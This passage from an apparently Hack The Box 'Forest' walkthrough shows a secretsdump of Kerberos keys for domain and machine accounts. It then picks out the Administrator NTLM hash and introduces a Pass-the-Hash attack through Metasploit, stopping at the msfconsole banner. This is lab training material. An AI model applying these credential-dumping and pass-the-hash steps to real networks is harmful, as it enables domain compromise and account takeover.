 ```
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
FOREST$:aes256-cts-hmac-sha1-96:45672c78eaae16282c5aa6cf8ef33327690c738735559035b27fed4e9b517ce4
FOREST$:aes128-cts-hmac-sha1-96:63108bf68ff4221935d0be3aaf18d40a
FOREST$:des-cbc-md5:4cdf16463e7ff7dc
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up... 
```
As we dumped "all secrets" available, notice a great one we need to use:

**htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::**

First thought of some people would be to try and crack this, but how about using it as is? There are different ways, one being through Metasploit's psexec and through one of the Impacket's SMB scripts; I went for Metasploit. In escence, both will be doing a **Pass-the-Hash** attack.

To do this, we only need the following portion of the Administrator dump used as password:
**aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6**


### METASPLOIT
```
root@kali:~/Documents/HTB-Labs/Forest# msfconsole
                                                  
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%     %%%         %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %  %%%%%%%%   %%%%%%%%%%% https://metasploit.com %%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%  %%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%    %%   %%%%%%%%%%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%  %%%%%
%%%%  %%  %%  %      %%      %%    %%%%%      %    %%%%  %%   %%%%%%       %%
%%%%  %%  %%  %  %%% %%%%  %%%%  %%  %%%%  %%%%  %% %%  %% %%% %%  %%%  %%%%%
%%%%  %%%%%%  %%   %%%%%%   %%%%  %%%  %%%%  %%    %%  %%% %%% %%   %%  %%%%%
%%%%%%%%%%%% %%%%     %%%%%    %%  %%   %    %%  %%%%  %%%%   %%%   %%%     %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%%%%% %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%          %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


       =[ metasploit v5.0.72-dev                          ]
+ -- --=[ 1962 exploits - 1095 auxiliary - 336 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

msf5 > 
```
